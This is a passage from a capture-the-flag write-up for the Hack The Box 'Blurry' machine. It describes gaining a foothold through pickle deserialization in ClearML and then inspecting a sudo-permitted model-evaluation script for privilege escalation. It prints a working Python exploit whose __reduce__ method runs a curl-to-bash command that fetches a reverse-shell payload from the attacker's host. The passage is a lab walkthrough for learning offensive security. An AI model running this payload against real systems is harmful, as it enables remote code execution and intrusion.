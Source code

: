 ![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614172119.png)

- To exploit the `arbitrary deserialization` vulnerability, the pentester created the following `Python` file named `pwn.py`, which allows them to establish a reverse shell. This system command will make a request to the pentester's web server, where a file named `reverse shell` is located conteniendo el payload, and then execute the contents of this file within the `bash` interpreter.

```python
#!/usr/bin/python3
import pickle
import os 
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return ( os.system, ('curl "http://10.10.14.9/revshell"|bash',) )

command = RunCommand()

task = Task.init(project_name="Black Swan", task_name="xpntPwn", task_type=Task.TaskTypes.data_processing, tags=["review"])

task.upload_artifact( name='xpnt_artifact', artifact_object=command, retries=2,wait_on_upload=True)
```

- Then he executed the `pwn.py` file and received a reverse shell. He was able to read `user.txt`.

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614125804.png)

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614125846.png)


## Search for PrivEsc

- After enumerating the target host in search of ways to escalate privileges, the pentester noticed that they could execute `/usr/bin/evaluate_model /models/*.pth` as `root` without providing a password.

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614132240.png)

- The pentester noticed that `/usr/bin/evaluate_model` was a `bash script`. This script is responsible for verifying, using the custom executable `fickling`, whether the `pth` file (serialized PyTorch state dictionary, basically a `pickle` file) was `safe` or `unsafe`, and then passing it as an argument when executing the script `/models/evaluate_model.py`.[Source](https://medium.com/@yulin_li/what-exactly-is-the-pth-file-9a487044a36b)

```bash
file /usr/bin/evaluate_model
```

![](/assets/images/HTB-Writeup-Blurry/Pasted image 20240614173825.png)

```bash
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

```